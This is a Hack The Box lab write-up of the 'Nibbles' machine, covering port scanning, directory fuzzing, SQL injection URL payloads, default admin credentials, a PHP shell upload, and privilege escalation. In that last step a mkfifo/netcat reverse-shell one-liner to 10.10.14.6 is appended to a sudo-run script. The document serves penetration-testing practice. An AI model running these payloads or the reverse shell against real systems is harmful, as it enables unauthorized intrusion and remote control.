 ```yaml
---
title: "Nibbles"
date: 2024-07-20
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "nibbles", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Nibbles

---
OS: Linux
aliases: 
Difficulty: Easy
Note: Previously done before (root)
---
# Learned
- `sudo -l `
	- run `sudo <full path>`
- When shell is not catching, use different port 
- Enumerate (fuzz) all the directory first, then exploitation
- Look for credentials in an application
	- google `<application name> credentials`
- Search for admin page 
	- google `<application name> admin page`
- nc mkfifo is the GOAT.

# Todo 
- [ ] 
# Notes

# Enumeration
## Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
## HTTP
![screenshot](/assets/images/nibbles1.png)

![screenshot](/assets/images/nibbles2.png)

### `/nibbleblog/`
![screenshot](/assets/images/nibbles3.png)

![screenshot](/assets/images/nibbles4.png)
####  `/nibbleblog/admin/`
![screenshot](/assets/images/nibbles5.png)

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit
![screenshot](/assets/images/nibbles6.png)

>[!info]
>nibbleblog 3.7

## Fuzzing
```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml
![screenshot](/assets/images/nibbles8.png)

# Foothold
## SQLi
https://www.exploit-db.com/exploits/35865

![screenshot](/assets/images/nibbles7.png)

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

```
## Admin portal
![screenshot](/assets/images/nibbles10.png)
![screenshot](/assets/images/nibbles9.png)
`admin : nibbles`

![screenshot](/assets/images/nibbles11.png)

nibbleblog version 4.0.3

## https://github.com/hadrian3689/nibbleblog_4.0.3
![screenshot](/assets/images/nibbles12.png)

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![screenshot](/assets/images/nibbles13.png)

Upload the shell to Plugins : My Image
![screenshot](/assets/images/nibbles14.png)

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![screenshot](/assets/images/nibbles15.png)

Click Image.php

![screenshot](/assets/images/nibbles16.png)
# Privilege Escalation
## Enumeration
![screenshot](/assets/images/nibbles17.png)
## Attempts

 
```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![screenshot](/assets/images/nibbles18.png)

![screenshot](/assets/images/nibbles19.png)
